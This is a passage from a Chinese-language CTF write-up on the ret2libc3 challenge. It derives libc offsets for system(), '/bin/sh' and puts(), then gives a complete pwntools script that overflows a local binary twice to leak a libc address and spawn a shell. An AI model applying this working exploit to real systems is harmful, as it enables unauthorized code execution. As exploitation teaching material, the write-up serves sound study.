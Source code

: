我还尝试了其他库函数，但是也没能区别出来到底是这两个库中的哪一个（我看他版本也挨得很近，可能就是换了个名字），这里取第一个库作为实验对象，其函数偏移量如下：

![image-20230419171908397](./README.assets/image-20230419171908397.png)

可以得到system()函数和字符串“/bin/sh”的偏移量分别为0x048150和0x1bd0f5，puts()函数则是0x073260。这代表system()函数在puts()函数的176400字节之前，字符串“/bin/sh”在puts()函数的1351317字节之后。

下面按照之前的架构图实现重新返回main()函数进行二次溢出的脚本：

```python
from pwn import *


# ret2libc3 - stage 02
elf = ELF("./ret2libc3")
addr_puts_plt = elf.plt["puts"]
addr_puts_got = elf.got["puts"]
addr_main_plt = elf.symbols["_start"] # main()函数的真正起始点是_start()函数
puts_to_system = -176400
puts_to_binsh = 1351317

pwn_obj = process("./ret2libc3")
pwn_obj.sendlineafter(
    b"!?", 
    b"#" * 112 + 
    p32(addr_puts_plt) + 
    p32(addr_main_plt) + 
    p32(addr_puts_got))

addr_puts_memory = u32(pwn_obj.recv(4))
addr_system_memory = addr_puts_memory + puts_to_system
addr_binsh_memory = addr_puts_memory + puts_to_binsh
pwn_obj.sendlineafter(
    b"!?", 
    b"#" * 112 + 
    p32(addr_system_memory) + 
    b"#" * 4 + 
    p32(addr_binsh_memory))

pwn_obj.interactive()
```
